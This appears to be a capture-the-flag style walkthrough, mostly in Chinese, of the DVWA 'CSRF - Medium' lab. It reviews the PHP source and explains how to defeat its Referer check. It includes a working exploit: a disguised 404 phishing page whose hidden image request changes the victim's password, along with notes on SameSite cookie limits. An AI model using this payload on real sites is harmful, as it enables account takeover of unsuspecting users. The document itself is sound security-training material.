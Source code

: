 # CSRF - Medium

## View Source

```PHP
 <?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Checks to see where the request came from
    if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) {
        // Get input
        $pass_new  = $_GET[ 'password_new' ];
        $pass_conf = $_GET[ 'password_conf' ];

        // Do the passwords match?
        if( $pass_new == $pass_conf ) {
            // They do!
            $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
            $pass_new = md5( $pass_new );

            // Update the database
            $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
            $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

            // Feedback for the user
            echo "<pre>Password Changed.</pre>";
        }
        else {
            // Issue with passwords matching
            echo "<pre>Passwords did not match.</pre>";
        }
    }
    else {
        // Didn't come from a trusted source
        echo "<pre>That request didn't look correct.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?>
```

- [`isset()`](https://www.php.net/manual/zh/function.isset.php)
    - 檢查變數是否已設置
    - I.e., *Change* 按鈕按下去
- [`stripos($a, $b)`](https://www.php.net/manual/zh/function.stripos.php)
    - 回傳 *b* 在 *a* 中的位置 (不分大小寫)
- [*HTTP Referer*](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referer)
    - *The Referer HTTP request header contains the absolute or partial address from which a resource has been requested.*
    - I.e., *request* 從哪裡來
- *$_SERVER[ 'SERVER_NAME' ]*
    - 可以至 *Setup / Reset DB* 頁面看到 `Web Server SERVER_NAME: 127.0.0.1`

## Code Review

- *HTTP_REFERER* 含有 *SERVER_NAME* 且輸入的兩個密碼相同就做 *md5* 更新密碼
- 使用者正常操作時 `Referer: http://127.0.0.1/vulnerabilities/csrf/`

## Answer

### Burp Suite

- 使用 *Proxy* 功能攔截 *request* 封包再加上 *Referer*

### Exploit

1. 構造如 *Low level* 的惡意連結等
2. 設計一個顯示 *404* 的釣魚網頁誘騙使用者瀏覽
3. 檔名取 *SERVER_NAME*
    - `127.0.0.1.html`
4. `python3 -m http.server` 快速架設
    - *The Referer can not be sent by the browsers if the resource is the local file or data.*
5. 瀏覽 `http://0.0.0.0:8000/127.0.0.1.html`

### Example

- 詳見 *Sample code*
```HTML
<!DOCTYPE html>

<!-- https://codepen.io/akashrajendra/pen/JKKRvQ -->

<html lang="en">
    <head>
        <meta name="referrer" content="unsafe-url">
        <title>CSRF Demo</title>
        <link type="text/css" rel="stylesheet" href="css/style.css" />
    </head>
    <body>
        <div id="main">
            <div class="fof">
                <h1>Error 404</h1>
            </div>
        </div>
        <!-- <a href="https://bit.ly/3iF8Sxi">View my Pictures!</a> -->
        <img src="http://127.0.0.1/vulnerabilities/csrf/?password_new=123&password_conf=123&Change=Change#" width="0" height="0" border="0" style="display:none">
    </body>
</html>
```

### Note

- 建議過程中可以使用 *Burp Suite* 的 *Proxy* 觀察封包情況 

#### 可能遇到的問題

- 新版瀏覽器可能會遇到 *302* 被轉到 *login.php* 導致失敗
- 因為 *Cookie* 的 *SameSite* 預設會是 *Lax*
    - [SameSite cookies](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie/SameSite)
    - [2020 年 2 月開始實施的 Chrome 違規處置](https://developers.google.com/search/blog/2020/01/get-ready-for-new-samesitenone-secure?hl=zh-tw#chrome-enforcement-starting-in-february-2020)
- 所以在跨域情況下，只有少數的 *HTML tag* 可以夾帶 *Cookie*
- 解決方法
    1. 使用 *Lax* 允許的方式，例如 `<a>`
    2. 繞過它 (？) 沒嘗試過
        - E.g., [Bypassing SameSite cookie restrictions](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions#lax)
- 如果只是要嘗試效果，可直接存取 `http://127.0.0.1:8000/127.0.0.1.html` 比較方便
    - 因為 `python -m http.server` 預設是開在 `0.0.0.0`
    - [Difference between 127.0.0.1 and 0.0.0.0](https://www.geeksforgeeks.org/difference-between-127-0-0-1-and-0-0-0-0/)